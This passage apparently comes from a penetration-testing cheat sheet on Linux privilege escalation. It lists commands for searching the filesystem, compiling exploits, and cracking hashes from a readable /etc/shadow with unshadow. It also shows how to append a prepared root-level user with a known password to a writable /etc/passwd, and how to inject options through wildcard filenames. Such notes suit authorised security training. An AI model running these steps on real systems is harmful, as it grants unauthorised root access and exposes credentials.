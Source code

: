 ```bash
cat <filename> | grep -v "^# "
```
- Search files contents:
```bash
grep -rnw '/' -e '<search_query>' 2> /dev/null
```
- Search for all .txt files:
```bash
locate *.txt
find / -type f -name "*.txt" 2>/dev/null
```

## Possible escalation vectors in programs
- https://gtfobins.github.io/

## Compiling exploits and tools
- Use this to compile exploits and tools if no specific instructions provided:
```bash
gcc <file> -o <output_file> # add -fPIC for 64-bit machines
g++ <file> -o <output_file>
```
- If a target machine doesn't have required tools to compile an exploit cross-compile it on Kali _(add `-m32` option for 32-bit machines)_.

## Readable /etc/shadow exploit
- Just read the hash.
- Or use `unshadow` _(on target or personal machine)_:
```bash
unshadow /etc/passwd /etc/shadow > unshadowed.txt
```

## Writable /etc/passwd or /etc/shadow exploit
- Create a password:
```bash
openssl passwd -1 -salt <salt_like_username> <password>
```
- Or use this prepared user:
```bash
echo "new:\$1\$new\$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash" >> /etc/passwd
```
- Switch to the new user:
```bash
su new # password:123
```

## Exploiting wildcards
- Check options for the command that uses the wildcard: https://gtfobins.github.io/gtfobins/
- Create files in the current directory with filenames as options:
```bash
touch ./--<command_option>
```
